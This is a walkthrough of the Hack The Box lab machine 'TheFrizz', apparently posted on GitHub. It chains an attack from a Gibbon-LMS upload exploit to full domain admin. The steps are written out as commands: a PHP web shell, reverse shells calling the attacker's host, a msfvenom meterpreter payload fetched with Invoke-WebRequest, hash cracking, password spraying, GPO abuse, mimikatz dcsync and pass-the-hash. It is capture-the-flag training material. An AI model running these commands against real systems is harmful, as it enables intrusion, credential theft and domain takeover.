


# TheFrizz


```
Difficulty: Medium
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `w.webservice` | **Curl**, **PHP Shell**, **Netcat** | Gained a reverse shell by exploiting a file upload vulnerability in the Gibbon-LMS application. |
| 2 | `f.frizzle` | **MySQL**, **Hashcat**, **Kerberos** | Dumped user credentials from the MySQL database, cracked the hash for `f.frizzle`, and used Kerberos authentication to get an SSH shell as the domain user. |
| 3 | `M.SchoolBus` | **7-Zip**, **Base64**, **Kerbrute** | Discovered a hidden compressed file in the recycle bin, which contained a base64-encoded password. The password was cracked and password sprayed to find the user `M.SchoolBus`. |
| 4 | `M.SchoolBus` | **New-GPO**, **SharpGPOAbuse** | Used Group Policy Creator Owner permissions to create and link a GPO that added `M.SchoolBus` to the local Administrators group on the Domain Controller. |
| 5 | `M.SchoolBus` (elevated) | **RunasCs**, **Netcat** | Executed a process with elevated privileges using a `RunasCs` tool to obtain a `SYSTEM` shell. |
| 6 | `Administrator` | **Mimikatz**, **impacket-wmiexec** | Used `Mimikatz` to dump the NTLM hash of the `Administrator` account from the domain controller. |
| 7 | `Administrator` | **impacket-wmiexec** | Logged in as `Administrator` using the stolen NTLM hash to get full control of the machine and retrieve the root flag. |


#### Initial Access: Gibbon-LMS Exploitation

The first step is to gain a shell on the target machine. A port scan reveals that the machine is running an OpenSSH server on port 22 and an Apache web server on port 80. The web server hosts a Gibbon-LMS application.

Modify the hosts file: Add frizz.htb and frizzdc.frizz.htb to your /etc/hosts file to resolve the domain names.

Bash

```
10.10.11.60     frizzdc.frizz.htb frizz.htb
```

With the results, create a Kerberos configuration file in /etc/krb5.conf.

```
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
```

Exploit the Gibbon-LMS upload vulnerability: The Gibbon-LMS application has a file upload vulnerability in the rubrics_visualise_saveAjax.php page. You can use curl to upload a base64-encoded PHP shell.

Bash

```
./CVE-2023-45878.sh 10.10.XX.XX 8888 10.10.11.60:80
```

This command uploads a simple PHP shell named s_shell.php, which executes commands passed via the cmd GET parameter.

Establish a reverse shell:

Host a PowerShell reverse shell script (rev.ps1) on your local machine using a Python web server or php -S.

Use the uploaded PHP shell to execute a PowerShell command that downloads and runs your reverse shell script. Remember to URL-encode the PowerShell command.


Set up a listener on your local machine to catch the reverse shell.

Bash

```
python3 penelope.py -l tun0 8888
```


#### Enumerate the system:

 Once you have a shell, you will be the frizz\w.webservice user. The next step is to find credentials for other users.

The config.php file in the Gibbon-LMS directory contains database credentials.

Bash

```
type config.php
```


Look for the $databasePassword variable, which contains the password for the MrGibbonsDB user.

$databasePassword = 'MisXXXXXXXXXXXXXXXXXXX';

Use these credentials to connect to the MySQL database and dump the contents of the gibbonperson table, which contains user credentials.

Bash

```
.\mysql.exe -u MrGibbonsDB -pMisXXXXXXXXXXXXXXXXXXX --database=gibbon -e "SELECT * FROM gibbonperson;"
```


This will reveal the hashed password for the user f.frizzle:
067f746faca44f170c6cd9d7c4bdac6bXXXXXXXXXXXXXX84242b0b0c03:/aACFhiXXXXXXX489


Crack the password: Use Hashcat to crack the hash. The format is a salted SHA1, which corresponds to mode 1420.

Bash

hashcat -m 1420 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
The cracked password is JenXXXXXXXXXXXXXXX.

### Privilege Escalation: User to Domain User


The password JenXXXXXXXXXXXXXXX belongs to the domain user f.frizzle. Initial attempts to use this password with NTLM authentication (SMB, WinRM, LDAP) may fail. This is because Kerberos authentication is required.


#### Set up Kerberos:

Synchronize your system time with the domain controller using ntpdate.

Use impacket-getTGT to get a Kerberos Ticket Granting Ticket (TGT) for the f.frizzle user.

Export the ticket to the KRB5CCNAME environment variable.

Bash

```
sudo ntpdate frizz.htb
impacket-getTGT frizz.htb/f.frizzle:JenXXXXXXXXXXXXXXX -k  -dc-ip $IP
export KRB5CCNAME=f.frizzle.ccache
```


SSH into the machine: With the Kerberos ticket, you can now log in via SSH using the f.frizzle account. You may need to configure your /etc/krb5.conf file to specify the domain realm (Above in Initial Access).

Bash

```
ssh f.frizzle@frizz.htb -K
```


#### Find the root password:

Enumerate the system as f.frizzle. You will find the user flag in C:\Users\f.frizzle\Desktop\user.txt.

**Use BloodHound to collect data from the AD environment**

shell

```
bloodhound -u 'f.frizzle' -p 'MisXXXXXXXXXXXXXXX' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60 -c all --zip
```

Go to Administrator Direct Member in Group Member, we can see we will able to escalate privilage if able to gain access to M.SCHOOLBUS or ADMINISTRATOR

We still unable to get access to highest privilege. While looking for useful information in f.frizzle, look and restore the deleted file from the user machine

Look for deleted fie in recycle bin

Powershell
```
$shell = New-Object -ComObject Shell.Application
$recycleBin = $shell.Namespace(0xA)
$recycleBin.items() | Select-Object Name, Path
```


Restore deleted file

Powershell

```
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)
$items = $recycleBin.Items()
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}
$documentsPath = [Environment]::GetFolderPath("Desktop")
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)
$documents.MoveHere($item)
```


The .7z file will restore to the Desktop.

IMPORT FILE TO AD

Then, import the file into our local machine to extract

Use msfvenom to generate meterpreter session to import the file

Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.XX.XX LPORT=4444 -f exe -o meterpreter.exe
```

Then, open http port

Shell

```
python -m http.server 80
```

Download the file

Powershell

```
Invoke-WebRequest -Uri "http://10.10.XX.XX/meterpreter.exe" -OutFile "meterpreter.exe"
```

Open msfconsole and use use exploit/multi/handler to run and open meterpreter session.


DOWNLOAD FILE FROM AD

First recognize the file directory to download, which wapt-backup-sunday.7z in Desktop. Run the command in meterpreter, the file will be downloaded:

Shell

```
meterpreter > download C:\\Users\\f.frizzle\\Desktop\\wapt-backup-sunday.7z
```

After extract and enumerate the file, there simple encoded base64 password in waptserver.ini that we can decrypt


Kerbrute : M.SchoolBus as the user has same privilege as the administrator.


Possible user from Users in f.frizzle.

Powershell

```
Directory: C:\\Users
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d----           3/11/2025  3:37 PM                Administrator
d----          10/29/2024  7:27 AM                f.frizzle
d----          10/29/2024  7:31 AM                M.SchoolBus
d-r--          10/29/2024  7:13 AM                Public
d----           2/19/2025  1:35 PM                v.frizzle
d----           2/19/2025  1:35 PM                w.Webservice
```

So, the passwords belong to M.SchoolBus since we able to create the ticket with it


Copy these files to your local machine using scp. Note that you'll need to specify GSSAPI options to use your Kerberos ticket.


Inside the decompressed files, you will find a configuration file waptserver.ini that contains a base64-encoded password: IXNXXXXXXXXXXXXXXWQhUgo=.

Decode the base64 string to get the password: !suXXXXXXXXXXXXX.

Bash

```
echo IXNXXXXXXXXXXXXXhUgo= | base64 -d
```
Use Kerbrute to perform a password spray and find which user this password belongs to.

Bash

```
kerbrute_linux_amd64 passwordspray  --dc frizzdc.frizz.htb -d frizz.htb names.txt '!suXXXXXXXXXXXXX'
```


This will reveal that the password belongs to the M.SchoolBus user.

Privilege Escalation: Domain User to Domain Admin
The user M.SchoolBus has permissions to create and link Group Policy Objects (GPOs), which can be exploited to gain administrator privileges.

Kerberos for M.SchoolBus: Get a new Kerberos TGT for the M.SchoolBus user and export it.

Bash

```
impacket-getTGT frizz.htb/M.SchoolBus:'!suXXXXXXXXXXXXX' -k -dc-ip $IP
export KRB5CCNAME=M.SchoolBus.ccache
```

SSH as M.SchoolBus: Log in to the machine via SSH as the M.SchoolBus user.

Bash

```
ssh M.SchoolBus@frizz.htb -K
```


GPO Abuse: Use PowerShell and a tool like SharpGPOAbuse to create a GPO, link it to the Domain Controllers OU, and add M.SchoolBus to the local administrators group.

Create a new GPO:

View the GPO

Powershell

```
Get-GPO -ALL | Select DisplayName, Id
```


From the BloodHound data earlier, we can see that M.SchoolBus had the same privilege as administrator which the user also able to create a GPO.


Use the github tool to create a GPO policy that enable us to go to /root.

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master


Upload the file to the target machine.

Run below command to create a new GPO

Powershell

```
New-GPO -Name {{GPO-Name}} | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes

```

Powershell
```
get-GPO -All
```


gpupdate /force

Execute as administrator: The M.SchoolBus user is now a local administrator on the domain controller. You can use tools like RunasCs.exe to run a new process with administrator privileges.

PowerShell

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName Z0N --force
```

Force a GPO update to apply the changes.



Use RunasCs.exe to execute a PowerShell reverse shell as the M.SchoolBus user.

PowerShell

```
.\RunasCs.exe "M.SchoolBus"  '!suXXXXXXXXXXXXX' powershell.exe -r 10.10.XX.XX:1234
```

Set up a netcat listener to catch the reverse shell. This new shell will be running as NT AUTHORITY\SYSTEM.



Dump administrator credentials: With a SYSTEM shell, you can use Mimikatz to dump the credentials of the domain administrator.


Upload and run mimikatz.exe.

Elevate privileges and use lsadump::dcsync to get the domain administrator's NTLM hash.


mimikatz # lsadump::dcsync /domain:frizz.htb /user:Administrator
The NTLM hash for the Administrator will be c457bXXXXXXXXXXXXXXXX92e993d0b.

Final access: Use the dumped NTLM hash to log in as the domain administrator with tools like impacket-wmiexec.

Bash

```
impacket-wmiexec frizz.htb/administrator@frizzdc.frizz.htb -hashes :c457b5f1XXXXXXXXXXXXXXX93d0b -k -no-pass
```


You now have full administrative access to the domain controller and can retrieve the root flag.


**Pwned! TheFrizz**